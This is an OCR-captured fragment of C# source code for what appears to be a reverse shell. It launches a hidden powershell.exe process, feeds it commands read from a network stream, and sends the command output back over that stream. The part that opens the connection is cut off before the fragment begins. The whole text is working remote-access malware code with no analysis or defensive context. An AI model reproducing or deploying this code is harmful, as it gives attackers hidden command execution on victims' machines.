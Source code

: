```cs
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "powershell.exe";
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }
        public static void Main(string[] args)
        {
            Run runInstance = new Run();
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

    }
}
```
